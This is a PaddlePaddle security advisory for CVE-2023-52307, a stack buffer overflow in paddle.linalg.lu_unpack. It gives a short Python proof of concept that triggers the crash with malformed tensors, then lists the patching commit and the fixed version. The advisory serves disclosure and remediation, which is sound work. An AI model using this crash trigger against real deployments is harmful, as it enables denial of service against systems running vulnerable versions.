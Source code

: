 ## PDSA-2023-016: Stack overflow in paddle.linalg.lu_unpack

### CVE Number

CVE-2023-52307

### Impact

Invalid shapes cuase stack buffer overflow in `paddle.linalg.lu_unpack`.  The PoC is as follows:

```python
import paddle
import numpy as np

x = paddle.to_tensor(np.random.uniform(-6666666, 100000000, [1, 6, 4, 8, 2]).astype(np.float32))
y = paddle.to_tensor(np.random.uniform(-2147483648, 2147483647, []).astype(np.int32))

paddle.linalg.lu_unpack(x, y, True, True)
```

### Patches

We have patched the issue in commit [10093636a10f29f73f13729b33570d8cafd58fb6](https://github.com/PaddlePaddle/Paddle/pull/56311/commits/10093636a10f29f73f13729b33570d8cafd58fb6).
The fix will be included in PaddlePaddle 2.6.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by Tong Liu of CAS-IIE.
